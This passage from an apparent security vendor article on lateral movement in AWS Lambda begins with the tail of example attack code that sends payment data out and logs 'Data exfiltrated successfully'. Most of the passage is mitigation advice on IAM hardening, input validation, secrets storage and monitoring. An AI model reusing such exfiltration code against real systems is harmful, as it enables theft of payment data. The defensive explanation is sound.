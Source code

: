 ```
});
 
req.on('error', reject);
req.write(JSON.stringify(paymentData));
req.end();
});
 
console.log('Data exfiltrated successfully');
} catch (error) {
console.error('Error during lateral movement:', error);
}

}
```

They can repeat this process for other functions, gradually expanding their access across the entire serverless architecture.

## Mitigating Lateral Movement Attacks in AWS Lambda

To prevent lateral movement attacks in AWS Lambda environments as demonstrated in the real-world example above, organizations should implement multiple layers of security controls. Here are key mitigation strategies:

### IAM Role Hardening

- Implement the principle of least privilege for Lambda function IAM roles. Use separate roles for different functions rather than shared roles.
- Use AWS Service Control Policies (SCPs) to enforce guardrails.
- Implement role assumption restrictions using `aws:SourceIp` and `aws:PrincipalTag` conditions.

### Lambda Function Protection

- Implement input validation and sanitization at the Lambda application level.
- Enable Lambda function URL authorization or API Gateway authentication.
- API Gateway request validators can be used with json scheme to prevent the proto pollution attack.
- Package management should be used to prevent usage of insecure dependencies.
- Store secrets in a secret manager.

### Monitoring and Detection

- Enable AWS CloudTrail for API activity monitoring.
- Configure CloudWatch Logs for Lambda function logging. Set up CloudWatch Alarms for suspicious activities.
- Enable VPC Flow Logs for network monitoring.
- Cloud Native Application Protection Platforms, like SentinelOne’s Cloud Native Security, detect misconfigurations and vulnerabilities and provide insight into the exploitability of cloud issues to help security and cloud teams prioritize and remediate cloud issues to reduce organizations’ cloud risk.

<figure>
